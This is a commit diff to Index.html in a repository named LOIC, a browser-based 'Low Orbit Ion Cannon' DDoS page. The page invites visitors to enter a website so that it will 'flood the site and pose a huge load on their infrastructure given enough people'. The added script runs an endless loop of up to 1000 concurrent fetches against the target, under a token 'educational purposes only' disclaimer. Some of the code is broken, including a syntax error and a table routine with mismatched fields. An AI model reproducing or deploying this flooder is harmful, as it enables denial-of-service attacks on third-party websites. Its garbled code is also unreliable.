

Before and after one commit to Lok-Kwong/LOIC, a plain HTML site: page Index.html in a window 1280 px wide. Shown: the part 108-800 px from the top of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Lil changes

```diff
--- a/Index.html
+++ b/Index.html
@@ -1,52 +1,97 @@
 <!DOCTYPE html>
-<html>
+<html lang="en">
 
 <head>
-    <meta charset="utf-8">
-    <title>LOIC HTML DDoS Test</title>
-    <link rel="stylesheet" href="style.css">
+    <title>Top Secret</title>
+
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <meta http-equiv="X-UA-Compatible" content="ie=edge">
+
+    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css"
+        integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="an\
+onymous">
+    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
 </head>
+
 <body>
-    <h2 class="title"> DDOS a Website </h2>
-    <ul>
-        <li>
-            <h3>  <b> For educational purposes only obviously </b> </h3>
-            <p class="sub">For security concerns, you are able to simply save the webpage, and run locally - as well as
-                view the source. It is entirely HTML and browser interpreted. <br> Open this page and insert the website, it will flood the site
-                and pose a huge load on their infrastructure given enough people </p>
+    <div class="jumbotron">
+        <h2>Low Orbit Ion Cannon test</h2>
+        <p> For educational purposes only obviously. For security concerns, you are able to simply save the webpage, and
+            run locally - as well as
+            view the source. It is entirely HTML and browser interpreted. <br> Open this page and insert the website, it
+            will flood the site
+            and pose a huge load on their infrastructure given enough people </p>
+    </div>
 
-            <form onSubmit="flood()">
-                <label for="website">Website:</label><br>
-                <input type="text" id="website" name="website"><br>
-                <input type="submit">
-            </form>
 
-        </li>
-    </ul>
-<!--
-    <h3 class="desc">Here is the stats of your session (the links and the number of the requests that were sent from
-        your
-        browser:<br>
-        Failed to fetch is normal - if any site has that - that means their servers are under load and are dropping
-        packets - which is the goal!</h3>
-    <div id="stats" class="stats">
+    <div class="container">
+        <form>
+            <div class="form-group">
+                <label for="website">Website</label>
+                <input type="website" class="form-control" id="website" aria-describedby="Enter website address"
+                    placeholder="Enter website address">
+                <small id="websiteHelp" class="form-text text-muted">Keep it in the form of www.example.com</small>
+            </div>
+
+            <button type="submit" class="btn btn-primary" onClick="flood()">Submit</button>
+        </form>
     </div>
-    <div id="errors"></div> -->
+
+    <div class="row">
+        <table class="table bordered" id="posts">
+            <thead>
+                <tr>
+                    <th>Website</th>
+                    <th>Status code</th>
+                </tr>
+            </thead>
+            <tbody>
+
+            </tbody>
+        </table>
+    </div>
 
     <script>
 
-        function flood(website) {
-            console.log(website)
+        setInterval(processData, 100);
+
+        function processData(result) {
+            $.each(result, function (i, item) {
+                $("#posts").append([
+                    $("<tr>")
+                        .append("<td>" + item.name + "</td>")
+                        .append("<td>" + item.donorNumber + "</td>")
+                ]);
+            })
         }
 
-        var statsEl = document.getElementById('stats');
-        function printStats() {
-            statsEl.innerHTML = '<pre>' + JSON.stringify(targets, null, 2) + '</pre>'
+        const CONCURRENCY_LIMIT = 1000;
+        var queue = [];
+
+        async function flood() {
+            const website = document.getElementById("website").value
+            const target = website : { numberOfRequest: 0, numberOfErrors: 0 };
+
+            while (true) {
+                if (queue.length > CONCURRENCY_LIMIT) {
+                    await queue.shift()
+                }
+                queue.push(
+                    fetchWithTimeout(target, { timeout: 1000 })
+                        .catch((error) => {
+                            if (error.code === 20) {
+                                return;
+                            }
+                        })
+                        .then((response) => {
+                            if (response && !response.ok) {
+
+                            }
+                        })
+                )
+            }
         }
-        setInterval(printStats, 100);
-
-        var CONCURRENCY_LIMIT = 1000
-        var queue = []
 
         async function fetchWithTimeout(resource, options) {
             const controller = new AbortController();
@@ -63,35 +108,8 @@
             });
         }
 
-        // async function flood(target) {
-        //     while (true) {
-        //         if (queue.length > CONCURRENCY_LIMIT) {
-        //             await queue.shift()
-        //         }
-        //         queue.push(
-        //             fetchWithTimeout(target, { timeout: 2000 })
-        //                 .catch((error) => {
-        //                     if (error.code === 20 /* ABORT */) {
-        //                         return;
-        //                     }
-        //                     targets[target].number_of_errored_responses++;
-        //                     targets[target].error_message = error.message
-        //                 })
-        //                 .then((response) => {
-        //                     if (response && !response.ok) {
-        //                         targets[target].number_of_errored_responses++;
-        //                         targets[target].error_message = response.statusText
-        //                     }
-        //                     targets[target].number_of_requests++;
-        //                 })
 
-
-        //         )
-        //     }
-        // }
-
-        //Start
-        // Object.keys().map(flood)
     </script>
 </body>
+
 </html>
```
Also changed, not shown: styles.css (deleted).
